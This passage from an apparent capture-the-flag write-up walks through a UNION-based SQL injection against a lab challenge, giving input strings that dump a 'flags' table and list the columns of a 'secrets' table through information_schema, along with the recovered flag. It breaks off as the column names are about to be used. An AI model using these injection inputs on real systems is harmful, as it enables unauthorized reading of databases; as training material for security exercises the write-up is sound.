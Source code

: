 ```markdown
| socket_instances                                   | 2--------     | 3-------     |
| socket_summary_by_instance                         | 2--------     | 3-------     |
| socket_summary_by_event_name                       | 2--------     | 3-------     |
| session_connect_attrs                              | 2--------     | 3-------     |
| session_account_connect_attrs                      | 2--------     | 3-------     |
| flags                                              | 2--------     | 3-------     |
| secrets                                            | 2--------     | 3-------     |
```

{{< /code >}}

## Solution

The flags table at the bottom looks interesting. Let's grab it's contents. To get it's contents, I came up with the following query:

```sql
UNION SELECT (SELECT * FROM flags), 2, 3
```

This query also has to be converted to an input first. This will become `' UNION SELECT (SELECT * FROM flags), 2, 3 -- `.

After submitting this input, I got the flag: `NOVI{7h1s_flag_w@s_chuncky_right}`.

\*Note: this only works if a table has only one column, if it has more, you have to get the columns first. See the [Getting the secrets]({{< ref "#getting-the-secrets" >}}) for more info about that.

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#6-7).

_For more information about how SQL injection works, please read my [previous post]({{< ref "challenge_5.md" >}})._

## (Optional) Getting the secrets 😋 {#getting-the-secrets}

Because the `secrets` table a more than one column, we need to know the column names first. We can get them with the following query:

```sql
UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_name = "secrets"
```

Converted to an input: `' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_name = "secrets" -- `.

After remove the results from the original query, we get the following:

| id          | Description | Proof    |
| ----------- | ----------- | -------- |
| id          | 2--------   | 3------- |
| description | 2--------   | 3------- |
| proof       | 2--------   | 3------- |

We can then put these column names in our query:
